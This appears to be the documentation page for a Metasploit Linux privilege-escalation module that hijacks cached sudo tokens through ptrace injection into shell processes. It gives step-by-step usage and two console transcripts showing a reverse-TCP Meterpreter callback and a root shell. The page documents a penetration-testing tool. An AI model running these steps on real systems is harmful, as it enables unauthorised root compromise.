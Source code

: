 ## Description

  This module attempts to gain root privileges by blindly injecting into
  the session user's running shell processes and executing commands by
  calling `system()`, in the hope that the process has valid cached sudo
  tokens with root privileges.

  The system must have gdb installed and permit ptrace.


## Vulnerable Application

  This module has been tested successfully on:

  * Debian 9.8 (x64)
  * CentOS 7.4.1708 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ptrace_sudo_token_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **TIMEOUT**

  Process injection timeout (seconds) (default: `30`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### CentOS 7.4.1708 (x64)
  
  ```
  msf > use exploit/linux/local/ptrace_sudo_token_priv_esc 
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] YAMA ptrace scope is not restrictive
  [+] SELinux deny_ptrace is disabled
  [+] sudo is installed
  [+] gdb is installed
  [*] Searching for shell processes ...
  [*] Found 3 running shell processes
  [*] 2343, 2483, 2958
  [*] Writing '/tmp/.ka44kFCm8XyMEZ' (329 bytes) ...
  [*] Injecting into process 2343 ...
  [*] Injecting into process 2483 ...
  [*] Injecting into process 2958 ...
  [+] /tmp/.ka44kFCm8XyMEZ setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.141

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.141:53462) at 2019-08-10 02:49:48 -0400
  [-] Failed to delete /tmp/.ka44kFCm8XyMEZ: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : centos-7-1708.localdomain
  OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### Debian 9.8 (x64)

  ```
  msf > use exploit/linux/local/ptrace_sudo_token_priv_esc 
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ptrace_sudo_token_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] YAMA ptrace scope is not restrictive
  [+] sudo is installed
  [+] gdb is installed
  [*] Searching for shell processes ...
  [*] Found 5 running shell processes
  [*] 661, 891, 23499, 23518, 23541
  [*] Writing '/tmp/.Dpq90j6vOk' (329 bytes) ...
  [*] Injecting into process 661 ...
  [*] Injecting into process 891 ...
  [*] Injecting into process 23499 ...
  [*] Injecting into process 23518 ...
  [+] /tmp/.Dpq90j6vOk setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.232

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.232:50744) at 2019-08-10 02:54:34 -0400
  [-] Failed to delete /tmp/.Dpq90j6vOk: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-8-x64.local
  OS           : Debian 9.8 (Linux 4.9.0-8-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

